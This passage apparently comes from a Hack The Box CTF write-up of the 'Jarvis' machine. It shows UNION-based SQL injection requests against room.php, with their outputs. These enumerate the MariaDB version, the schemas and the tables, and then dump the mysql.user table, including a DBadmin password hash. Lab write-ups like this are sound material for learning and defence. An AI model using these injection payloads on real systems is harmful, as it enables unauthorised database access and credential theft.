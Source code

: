 This means that the third statement is the cost and can be changed to whatever we want:
```markdown
GET /room.php?cod=123 union select 1,2,"TEST",4,5,6,7
```

![UNION SQL Injection](https://kyuu-ji.github.io/htb-write-up/jarvis/jarvis_web-2.png)

It can also be changed to a SQL query:
```markdown
GET /room.php?cod=123 union select 1,2,(select @@version),4,5,6,7
```
```markdown
"price-room">10.1.37-MariaDB-0+deb9u1<
```

Lets enumerate the [Information_Schema Tables of MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html) to gain information about the databases.

#### Enumerating the Information Schema Table

Requesting the _SCHEMATA_:
```markdown
GET /room.php?cod=123+union+select+1,2,(select+SCHEMA_NAME+from+Information_Schema.SCHEMATA+LIMIT+0,1),4,5,6,7
```

The _LIMIT_ is needed because the query is not able to show more than one line, but can be bypassed by group concatenating the results:
```markdown
GET /room.php?cod=123+union+select+1,2,(select+group_concat(SCHEMA_NAME,":")+from+Information_Schema.SCHEMATA),4,5,6,7
```
```markdown
"price-room">hotel:,information_schema:,mysql:,performance_schema:
```

So there are four databases, which could contain valuable information.

Schema of the database _hotel_:
```markdown
GET /room.php?cod=123+union+select+1,2,(select+group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n")+from+Information_Schema.COLUMNS+where+TABLE_SCHEMA+=+'hotel'),4,5,6,7
```
```markdown
,room:cod
,room:name
,room:price
,room:descrip
,room:star
,room:image
,room:mini
```

The database _hotel_ has one table _(room)_ with seven parameters, but none of them are interesting.

Contents of the _user_ table in the _mysql_ database:
```markdown
GET /room.php?cod=123+union+select+1,2,(select+group_concat(host,":",user,":",password,"\r\n")+from+mysql.user),4,5,6,7
```
```markdown
localhost:DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```
